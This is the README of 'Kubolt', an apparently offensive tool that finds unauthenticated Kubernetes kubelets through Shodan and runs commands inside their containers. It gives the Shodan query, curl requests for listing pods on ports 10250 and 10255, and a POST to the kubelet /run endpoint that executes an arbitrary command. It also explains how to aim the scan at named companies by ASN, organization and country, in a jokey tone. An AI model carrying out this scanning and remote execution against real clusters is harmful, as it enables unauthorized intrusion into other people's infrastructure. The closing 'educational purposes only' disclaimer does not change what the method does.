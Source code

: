 


# Wat?
**Kubolt** is simple utility for scanning public unauthinticated kubernetes clusters and run commands inside containers

# Why?
Sometimes, the kubelet port 10250 is open to unauthorized access and makes it possible to run commands inside the containers using getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go):
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:

The basic query is 
>ssl:true port:10250 404 

**Kubelet** uses port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** asks Shodan by API for list of IP addresses and keeps them for other OSINT actions :grin:

Firstly, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contains `container` so we can run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You can list all available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You can target companies more accurate using Shodan filters such as:
- asn
- org
- country
- net

# Install 
```bash
mkdir output
pip install -r requirements.txt 
```

# Run
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** uses Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you will probably fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for educational purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.


